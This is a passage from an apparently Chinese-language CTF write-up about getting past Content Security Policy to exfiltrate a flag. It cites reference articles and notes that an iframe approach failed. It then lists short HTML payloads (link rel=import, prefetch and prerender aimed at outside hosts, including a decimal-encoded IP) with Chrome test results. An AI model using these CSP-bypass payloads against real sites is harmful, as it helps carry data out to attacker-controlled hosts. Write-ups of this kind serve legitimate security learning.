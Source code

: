 1.   [http://blog.csdn.net/qq_19876131/article/details/54097284](http://blog.csdn.net/qq_19876131/article/details/54097284)

2. [http://5alt.me/2017/01/%E5%9F%BA%E4%BA%8Ecsv%E7%9A%84%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E5%B7%B2%E6%AD%BB/](http://5alt.me/2017/01/%E5%9F%BA%E4%BA%8Ecsv%E7%9A%84%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E5%B7%B2%E6%AD%BB/)

   ​

它只所以没违反同源，是因为它是加载一个js，而非iframe，看图

![origin2](https://mo-xiaoxi.github.io/img/post/0ctf/origin2.png)

整个做题过程的思路，就死在这了。感觉现在只能做到访问flag.php，但是没办法把数据打出来。

感觉成也iframe，败也iframe😭

> 记录一下自闭合标签：
>
>  `<img><br><hr><link><area/> <base/> <input /> <!-- -->`

#### HTML5 Prefetch

本题正确的解答应该是利用chrome的预加载机制来绕过CSP

[Prefetch标签学习](http://www.jianshu.com/p/7f58ddfc1392)

[利用DNS预读取技术绕过CSP](http://bobao.360.cn/learning/detail/3140.html)

[Bypass unsafe-inline mode CSP](http://paper.seebug.org/91/)

[那些年我们绕过的CSP](http://heartsky.info/2017/03/03/%E9%82%A3%E4%BA%9B%E5%B9%B4%E6%88%91%E4%BB%AC%E7%BB%95%E8%BF%87%E7%9A%84CSP/)

类似这种形式：

```

<link rel=import href=\\qq。com

<link rel=import href=\\1759553882
```



至于prerender、prefetch，有看到题解说，可以。但是，我在测试的时候，效果不是很好。

记录下结果：

```html
<link rel=import href=\\www。xx。net 好用
<link rel=prefetch href=\\www。xx。net 访问了，但是收不到数据
<link rel=prerender href=\\www。xx。net 无法访问
```





#### CORS的坑

使用`<link rel=import href=\\1759553882`进行测试的时候，会被chrome拦截。

